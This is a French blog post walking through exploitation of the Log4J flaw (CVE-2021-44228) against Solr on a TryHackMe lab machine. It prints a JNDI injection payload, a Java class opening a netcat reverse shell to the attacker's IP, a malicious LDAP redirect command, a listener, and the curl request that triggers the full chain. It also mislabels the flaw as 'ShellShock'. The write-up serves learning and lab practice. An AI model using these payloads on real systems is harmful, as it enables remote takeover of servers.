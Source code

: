 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille qui a mis les Ops et les RSSI en ébullition.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut trouver un point d'injection. Le plus simple est de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injection de code ou pas)

Pour identifier la vulnérabilité du système, j'injecte un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc **vulnérable à l'attaque**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut unserveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre paylaod fera l'affaire.

Pour pouvoir récupérer le shell il faut également ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va permettre de déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la reqûete malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec la payload RCE compilée, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classque d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.



